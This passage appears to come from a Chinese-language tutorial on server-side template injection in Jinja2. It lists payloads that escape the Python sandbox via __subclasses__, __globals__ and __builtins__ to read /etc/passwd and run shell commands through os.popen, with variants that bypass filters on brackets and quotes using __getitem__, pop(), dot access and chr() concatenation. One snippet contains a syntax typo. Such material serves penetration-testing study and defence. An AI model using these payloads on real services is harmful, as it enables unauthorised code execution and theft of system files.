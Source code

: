 ```python
{{''.__class__.__mro__.__getitem__(2).__subclasses__().__getitem__(40)('/etc/passwd').read()}}       // 指定序列属性

{{().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(59).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}       // 指定字典属性
```

#### 利用 pop() 绕过

pop()方法可以返回指定序列属性中的某个索引处的元素或指定字典属性中某个键对应的值，如下示例：

```python
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()}}       // 指定序列属性

{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.__globals__.pop('__builtins__').pop('eval')('__import__("os").popen("ls /").read()')}}       // 指定字典属性
```

注意：最好不要用pop()，因为pop()会删除相应位置的值。

#### 利用字典读取绕过

我们知道访问字典里的值有两种方法，一种是把相应的键放入熟悉的方括号 [] 里来访问，一种就是用点 . 来访问。所以，当方括号 [] 被过滤之后，我们还可以用点 . 的方式来访问，如下示例

```python
// __builtins__.eval()

{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.__globals__.__builtins__.eval('__import__("os").popen("ls /").read()')}}
```

等同于：

```python
// [__builtins__]['eval']()

{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

### 过滤了引号

#### 利用chr()绕过

先获取chr()函数，赋值给chr，后面再拼接成一个字符串

```python
{% set chr=().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.chr%}{{().__class__.__bases__.[0].__subclasses__().pop(40)(chr(47)+chr(101)+chr(116)+chr(99)+chr(47)+chr(112)+chr(97)+chr(115)+chr(115)+chr(119)+chr(100)).read()}}

# {% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr%}{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)+chr(101)+chr(116)+chr(99)+chr(47)+chr(112)+chr(97)+chr(115)+chr(115)+chr(119)+chr(100)).read()}}
```
